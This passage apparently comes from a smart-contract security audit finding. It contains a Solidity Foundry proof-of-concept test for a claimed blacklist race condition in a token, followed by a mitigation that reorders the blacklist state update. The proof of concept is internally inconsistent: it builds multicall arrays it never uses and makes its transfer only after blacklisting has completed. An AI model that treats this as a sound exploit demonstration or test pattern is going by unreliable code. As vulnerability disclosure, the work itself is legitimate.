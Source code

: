```solidity
    function test_raceCondition() public {
        // Setup multicall data for user
        address[] memory targets = new address[](2);
        bytes[] memory data = new bytes[](2);
        
        // First call: Transfer to alice
        targets[0] = address(token);
        data[0] = abi.encodeWithSelector(
            token.transfer.selector,
            alice,
            1000e18
        );
        
        // Second call: Self-transfer remaining balance
        targets[1] = address(token);
        data[1] = abi.encodeWithSelector(
            token.transfer.selector,
            user,
            1000e18
        );
        
        // Blacklister initiates blacklist
        vm.prank(blacklister);
        token.addBlackList(user);
        
        // During _onceBlacklisted execution, user can still transfer!
        // This is because blacklist state isn't set yet
        vm.prank(user);
        token.transfer(alice, 1000e18); // This works!
        
        // Verify final state
        assertEq(token.balanceOf(alice), 1000e18);
        assertEq(token.balanceOf(blacklister), 1000e18);
        assertEq(token.balanceOf(user), 0);
    }
}
```

### Mitigation

- Move the blacklist state update **BEFORE** `_onceBlacklisted`:

```solidity
function addBlackList(address user) public virtual onlyRole(BLACKLISTER_ROLE) {
    if (blacklisted(user)) revert AlreadyBlacklisted(user);
    _setBlacklist(user, true);  // Set state first
    _onceBlacklisted(user);     // Then seize funds
    emit AddedBlacklist(user);
}
```
